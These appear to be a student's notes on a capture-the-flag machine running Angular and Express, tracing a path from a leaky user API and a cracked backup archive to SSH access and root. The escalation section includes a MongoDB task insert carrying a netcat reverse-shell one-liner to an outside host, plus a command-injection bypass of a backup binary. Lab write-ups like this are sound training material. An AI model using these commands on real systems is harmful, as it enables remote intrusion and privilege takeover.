## Takeaway
- When enumerating modern web application, it is a good idea to try to query for different backend APIs for interesting responses
	- There might be sensitive APIs with bad access control.
- <mark>Do take a careful look at PrivEsc of the Machine. So much to learn here.</mark>
## Metadata
- Using `wappalyzer` extension, we can identify that the website is running a stack of  `Angular` + `Express`.![[Pasted image 20231226151102.png]]
- By looking at the network traffic, we can identify lots of API endpoints embedded within the JavaScript files.![[Pasted image 20231226153039.png]]
	- `/api/users/latest` is of the most interesting one. By sending a `GET` request, one can retrieve the `username` and `password hash` of the administrator user.![[Pasted image 20231226153238.png]]
	- Use [crackstation](https://crackstation.net/) to find the actual `password` and obtain a pair of a valid administrator credential `myP14ceAdm1nAcc0uNT:manchester`
- Upon Logging in as administrator, one can download a copy of the backup of the website in development.![[Pasted image 20231226154103.png]]
	- It is not hard to see that the initial file is base64 encoded. Use the command `base64 -d myplace.backup > myplaceDecoded.backup` to decode.![[Pasted image 20231226154254.png]]
	- Anther `file` command will reveal that the decoded file is actually of  `zip` format. However, unzipping requires a password.![[Pasted image 20231226154749.png]]
	- `fcrackzip` can help brute force the password.![[Pasted image 20231226155721.png]]
- Upon inspecting the unzipped the back up file, one can identify a set of credential used to log into `mongoDB` which also happens to be a set of credentials for `SSH`.![[Pasted image 20231226195631.png]]
#### Attack Path
- <mark>Exploitation</mark>
	- Log in as user `mark` through `SSH`.
- <mark>Post-Exploitation</mark>
	- <mark>mark => tom</mark>
		- `linPEAS` identify that another node.js application is running under local user `tom`. The application is executing commands stored in `mongoDB` collection called `tasks` in a regular interval.![[Pasted image 20231226200002.png]]
		- Log into `mongoDB` with mark's credential (`mongo 127.0.0.1/scheduler -u mark -p 5AYRft73VtFpc84k`) and insert a document with command `db.tasks.insertOne({cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 4444 >/tmp/f"})`. Finally, wait for reverse shell callback.![[Pasted image 20231226202005.png]]![[Pasted image 20231226202144.png]]
	- <mark>tom => root</mark>
		- 1.`Bypass Sanity Checks`: run the binary from the `/` and specify the third argument as `root`
			- `/usr/local/bin/backup -q [token] root`
		- 2. `Command Injection` `ghidra` will identify that sanity checks do not rule out symbol `>` before forming a command to be executed.![[Pasted image 20231227175123.png]]![[Pasted image 20231227185045.png]]
			- whatever after `/bin/bash` needed otherwise shell's `stdout` will be redirected to `/dev/null`
		- 3. `BoF`: `ret2libc`
			- https://www.youtube.com/watch?v=sW10TlZF62w